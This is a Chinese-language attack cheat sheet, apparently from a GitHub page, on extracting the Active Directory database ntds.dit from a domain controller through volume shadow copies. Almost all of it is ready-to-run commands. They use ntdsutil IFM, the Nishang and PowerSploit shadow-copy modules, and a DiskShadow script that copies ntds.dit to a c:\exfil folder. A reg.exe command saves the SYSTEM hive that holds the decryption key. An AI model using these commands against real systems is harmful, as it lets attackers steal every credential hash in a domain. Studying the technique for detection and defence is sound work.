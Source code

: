 使用 NTDSUTIL 的 IFM 创建（VSS 卷影副本）在 DC 上本地引用 ntds.dit

NTDSUtil 是本地处理 AD DB 的命令实用程序（ntds.dit），并为 DCPromo 启用 IFM 集创建。IFM 与 DCPromo 一起用于“从媒体安装”,因此被升级的服务器不需要通过网络从另一个 DC 复制域数据。
```
ntdsutil "ac i ntds" "ifm" "create full c:temp" q q
```
当创建一个 IFM 时，VSS 快照被拍摄，挂载，ntds.dit 文件和相关数据被复制到目标文件夹中。

**Nishang**
```
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

**PowerSploit**
```
Import-Module .\VolumeShadowCopyTools.ps1
New-VolumeShadowCopy -Volume C:\
Get-VolumeShadowCopy
```

**DiskShadow**

DiskShadow是一个 Microsoft 签名二进制文件，用于协助管理员执行与卷影复制服务（VSS）相关的操作。这个二进制文件有两个模式 interactive 和 script ，脚本将包含自动执行 NTDS.DIT 提取过程所需的所有命令。我们可以在脚本文件中添加以下行，以创建新的 volume shadow copy（卷影复制），挂载新驱动，执行复制命令以及删除 volume shadow copy。
```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```

需要注意的是，DiskShadow 二进制文件需要从 C:\Windows\System32 路径执行。如果从其它路径调用它，脚本将无法正确执行。
```
diskshadow.exe /s c:\diskshadow.txt
```

直接从解释器运行以下命令，将列出系统的所有可用 volume shadow copy。
```
diskshadow
LIST SHADOWS ALL
```

SYSTEM 注册表 hive 也应该被复制，因为其包含了解密 NTDS 文件内容所需的密钥。
```
reg.exe save hklm\system c:\exfil\system.bak
```

**ntdsutil**
```
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```
它将为我们生成两个新文件夹：Active Directory 和 Registry。NTDS.DIT 文件将被保存到 Active Directory 中，而 SAM 和 SYSTEM 文件则将被保存到 Registry 文件夹中。
